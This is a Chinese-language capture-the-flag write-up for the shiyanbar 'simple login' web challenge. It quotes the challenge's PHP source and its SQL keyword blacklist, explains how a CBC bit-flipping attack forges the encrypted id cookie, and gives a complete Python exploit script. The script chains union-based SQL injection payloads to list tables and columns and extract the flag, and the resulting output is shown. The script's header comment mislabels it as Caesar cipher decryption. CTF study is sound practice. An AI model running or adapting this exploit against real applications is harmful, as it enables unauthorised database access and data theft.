




## 简单的登录题

题目链接 http://www.shiyanbar.com/ctf/2037

此题目虽然放在第一个，分数也不高，但是还是比较复杂的。



抓包发现一个`提示`



查看`test.php`，发现是`index.php`的源码。

```php
<?php
define("SECRET_KEY", '***********');
define("METHOD", "aes-128-cbc");
error_reporting(0);
include('conn.php');
function sqliCheck($str){
	if(preg_match("/\\\|,|-|#|=|~|union|like|procedure/i",$str)){
		return 1;
	}
	return 0;
}
function get_random_iv(){
    $random_iv='';
    for($i=0;$i<16;$i++){
        $random_iv.=chr(rand(1,255));
    }
    return $random_iv;
}
function login($info){
	$iv = get_random_iv();
	$plain = serialize($info);
    $cipher = openssl_encrypt($plain, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv);
    setcookie("iv", base64_encode($iv));
    setcookie("cipher", base64_encode($cipher));
}
function show_homepage(){
	global $link;
    if(isset($_COOKIE['cipher']) && isset($_COOKIE['iv'])){
        $cipher = base64_decode($_COOKIE['cipher']);
        $iv = base64_decode($_COOKIE["iv"]);
        if($plain = openssl_decrypt($cipher, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv)){
            $info = unserialize($plain) or die("<p>base64_decode('".base64_encode($plain)."') can't unserialize</p>");
            $sql="select * from users limit ".$info['id'].",0";
            $result=mysqli_query($link,$sql);
            
            if(mysqli_num_rows($result)>0  or die(mysqli_error($link))){
            	$rows=mysqli_fetch_array($result);
				echo '<h1><center>Hello!'.$rows['username'].'</center></h1>';
			}
			else{
				echo '<h1><center>Hello!</center></h1>';
			}
        }else{
            die("ERROR!");
        }
    }
}
if(isset($_POST['id'])){
    $id = (string)$_POST['id'];
    if(sqliCheck($id))
		die("<h1 style='color:red'><center>sql inject detected!</center></h1>");
    $info = array('id'=>$id);
    login($info);
    echo '<h1><center>Hello!</center></h1>';
}else{
    if(isset($_COOKIE["iv"])&&isset($_COOKIE['cipher'])){
        show_homepage();
    }else{
        echo '<body class="login-body" style="margin:0 auto">
                <div id="wrapper" style="margin:0 auto;width:800px;">
                    <form name="login-form" class="login-form" action="" method="post">
                        <div class="header">
                        <h1>Login Form</h1>
                        <span>input id to login</span>
                        </div>
                        <div class="content">
                        <input name="id" type="text" class="input id" value="id" onfocus="this.value=\'\'" />
                        </div>
                        <div class="footer">
                        <p><input type="submit" name="submit" value="Login" class="button" /></p>
                        </div>
                    </form>
                </div>
            </body>';
    }
}
?>
```

代码实现的流程:
1. 提交上来的id，先进行关键字的过滤，防止SQL注入，包括=、-、#、union、like、procedure等等，如果检测到这些敏感字符，则会直接die并返回显示Sql inject detected。
2. 通过过滤的id，服务器会返回两个值：iv与cipher。iv：随机生成的16位值，再经过base64转码。cipher：id序列化、预设的SECRET_KEY（打码）、上面得到的iv值，三者经过aes-128-cbc加密得到cipher值。服务器把iv、cipher设置到cookie然后返回，顺便还显示了一个Hello！
3. 如果Post给服务器的报文，没有包括id，而且cookie里有iv和cipher值，则进入函数show_homepage()；
4. show_homepage()大致过程：将iv、cipher经过base64解码，然后把预设的SECRET_KEY（打码）、iv、cipher经过aes-128-cbc解密，得到plain
5. 如果plain无法反序列化，则die并返回plain的base64编码数据；如果可以序列化，则将id值拼接到sql语句中“select * from users limit .$info['id']  ,0”，并提交到数据库，返回数据，并附在返回的Hello后。

根据程序流程分析，我们的目标是实现sql注入，拿到数据库的内容应该就可以获取到Flag了。目前的sql语句为

```sql
$sql="select * from users limit ".$info['id'].",0";
```

根据sql语句，可以开看到，这条语句永远都返回的0条记录，除非能够进行注入，将后面的`,0`注释掉，才能够获取到数据，如使用语句`1,100#`。

由于过滤了`#、--`，所以尝试用`%00`，用Burp Repeater尝试，将`id=1 %00`，post提交，然后用返回的iv、cipher值，作为第二次的cookie，然后去掉`id=`（这样做的原因是因为源代码如果id参数不存在，则获取到cookie里的各种值作为查询的参数，而cookie内的值为上一次的查询值），再次post，结果能返回`Hello!rootzz`。

如下图



将cookie按照服务器设置要求进行设置




没有按到flag，推测要获取整个库第一次提交id时，做了过滤，但是第二次提交iv和cipher值，是不会做过滤的，使用cbc翻转一个字节进行攻击（发送一个可以绕过字符过滤的id值，然后通过cbc翻转攻击将一部分需要改变的字符修改为我们想要的，达到sql注入目的）。

1. 提交能经过过滤检测的SQL语句，如id=12
2. 结合得到的iv、cipher，用cbc字节翻转cipher对应id=12中2的字节，得到cipher_new，提交iv、cipher_new
3. 第二次提交得到plain（如果忘了是啥可以往回看）
4. 把iv、plain、‘id=12’序列第一行（16个字节为一行），进行异或操作，得到iv_new
5. 把iv_new、cipher_new，去掉id=xx  post到服务器即可得到  id=1# 的结果，即Hello!rootzz

使用脚本

```python
#!/usr/bin/env python
#-*- coding: utf-8 -*-
"""
@Author : darkN0te
@Create date : 2018-07-07
@description : 凯撒轮转密码解密
@Update date :   
"""  
from base64 import *
import urllib
import requests
import re

def denglu(payload,idx,c1,c2):
    url=r'http://ctf5.shiyanbar.com/web/jiandan/index.php'
    payload = {'id': payload}
    r = requests.post(url, data=payload)
    Set_Cookie=r.headers['Set-Cookie']
    iv=re.findall(r"iv=(.*?),", Set_Cookie)[0]
    cipher=re.findall(r"cipher=(.*)", Set_Cookie)[0]
    iv_raw = b64decode(urllib.unquote(iv))
    cipher_raw=b64decode(urllib.unquote(cipher))
    lst=list(cipher_raw)
    lst[idx]=chr(ord(lst[idx])^ord(c1)^ord(c2))
    cipher_new=''.join(lst)
    cipher_new=urllib.quote(b64encode(cipher_new))
    cookie_new={'iv': iv,'cipher':cipher_new}
    r = requests.post(url, cookies=cookie_new)
    cont=r.content
    plain = re.findall(r"base64_decode\('(.*?)'\)", cont)[0]
    plain = b64decode(plain)
    first='a:1:{s:2:"id";s:'
    iv_new=''
    for i in range(16):
        iv_new += chr(ord(first[i])^ord(plain[i])^ord(iv_raw[i]))
    iv_new = urllib.quote(b64encode(iv_new))
    cookie_new = {'iv': iv_new, 'cipher': cipher_new}
    r = requests.post(url, cookies=cookie_new)
    rcont = r.content
    print rcont

denglu('12',4,'2','#')
denglu('0 2nion select * from((select 1)a join (select 2)b join (select 3)c);'+chr(0),6,'2','u')
denglu('0 2nion select * from((select 1)a join (select group_concat(table_name) from information_schema.tables where table_schema regexp database())b join (select 3)c);'+chr(0),7,'2','u')
denglu("0 2nion select * from((select 1)a join (select group_concat(column_name) from information_schema.columns where table_name regexp 'you_want')b join (select 3)c);"+chr(0),7,'2','u')
denglu("0 2nion select * from((select 1)a join (select * from you_want)b join (select 3)c);"+chr(0),6,'2','u')
```

得到结果
```
<h1><center>Hello!rootzz</center></h1>
<h1><center>Hello!2</center></h1>
<h1><center>Hello!users,you_want</center></h1>
<h1><center>Hello!value</center></h1>
<h1><center>Hello!flag{c42b2b758a5a36228156d9d671c37f19}</center></h1>
```

参考链接 https://www.jianshu.com/p/4c1e5d24d781 。
https://blog.csdn.net/csu_vc/article/details/79619309 。
https://blog.csdn.net/jeffreynnn/article/details/77100389 。